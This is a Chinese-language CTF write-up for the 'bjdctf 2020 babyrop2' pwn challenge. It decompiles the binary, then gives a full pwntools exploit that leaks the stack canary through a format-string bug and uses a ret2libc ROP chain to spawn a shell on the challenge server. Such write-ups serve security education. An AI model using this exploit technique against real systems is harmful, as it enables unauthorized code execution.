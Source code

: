 ```yaml
---
author: 
  name: Zephyr
title: bjdctf 2020 babyrop2
date: 2022-3-28 15:50:25
permalink: /pages/2e1547494524d19f
tags: 
  - buuctf
  - pwn
  - FormatString
  - StackOverflow
---
```


# bjdctf 2020 babyrop2

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/bjdctf_2020_babyrop2/bjdctf_2020_babyrop2'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## 静态分析

主函数如下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  init();
  gift();
  vuln();
  return 0;
}
```

init函数如下

```c
unsigned __int64 init()
{
  unsigned __int64 v0; // ST08_8

  v0 = __readfsqword(0x28u);
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 1, 0LL);
  puts("Can u return to libc ?");
  puts("Try u best!");
  return __readfsqword(0x28u) ^ v0;
}
```

gift函数如下

```c
unsigned __int64 gift()
{
  char format; // [rsp+0h] [rbp-10h]
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  puts("I'll give u some gift to help u!");
  __isoc99_scanf("%6s", &format);
  printf(&format);
  puts(byte_400A05);
  fflush(0LL);
  return __readfsqword(0x28u) ^ v2;
}
```

vuln函数如下

```c
unsigned __int64 vuln()
{
  char buf; // [rsp+0h] [rbp-20h]
  unsigned __int64 v2; // [rsp+18h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  puts("Pull up your sword and tell me u story!");
  read(0, &buf, 0x64uLL);
  return __readfsqword(0x28u) ^ v2;
}
```

部分程序表如下

![bjdctf_2020_babyrop2_1](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/blog/bjdctf_2020_babyrop2_1.png)

## 思路分析

1. 目前信息：
   - vuln函数可溢出
   - gift函数有格式化字符串漏洞
   - 无system、/bin/sh与后门函数
   - Canary found
   - NX enabled
   - No PIE
2. 思路：
   - 典型的64位ret2libc，但需要绕过Canary防护，这里gift函数中的格式化字符串漏洞可以帮助我们泄漏Canary

## exp

```python
from pwn import *
from LibcSearcher import *
context(os='linux', arch='amd64', log_level='debug')
pwnfile = '/root/pwn/buuctf/bjdctf_2020_babyrop2/bjdctf_2020_babyrop2'
io = remote('node4.buuoj.cn', 26351)
# io = process(pwnfile)
elf = ELF(pwnfile)
format = b'%7$p\x00'
io.sendlineafter('give u some gift to help u!\n', format)
Canary = int(io.recvuntil('\n', drop=True), 16) # 泄漏Canary
success('Canary:'+hex(Canary))
padding = 0x20+8
libc_start_main_addr = elf.got['__libc_start_main']
puts_addr = elf.plt['puts']
vuln_addr = elf.symbols['vuln']
pop_rdi_ret = 0x400993
payload = flat(['a'*(padding-0x10), Canary, 'a'*8, pop_rdi_ret,libc_start_main_addr, puts_addr, vuln_addr])
io.sendlineafter('me u story!\n', payload)
leak_libc_start_main_addr = u64(io.recvuntil('\x7f')[-6:].ljust(8, b'\x00'))
success('leak_libc_start_main_addr:'+hex(leak_libc_start_main_addr))
libc = LibcSearcher('__libc_start_main', leak_libc_start_main_addr)
libcbase = leak_libc_start_main_addr-libc.dump('__libc_start_main')
system_addr = libcbase+libc.dump('system')
bin_sh_addr = libcbase+libc.dump('str_bin_sh')
payload = flat(['a'*(padding-0x10), Canary, 'a'*8,pop_rdi_ret, bin_sh_addr, system_addr])
io.sendlineafter('u story!\n', payload)
io.interactive()
```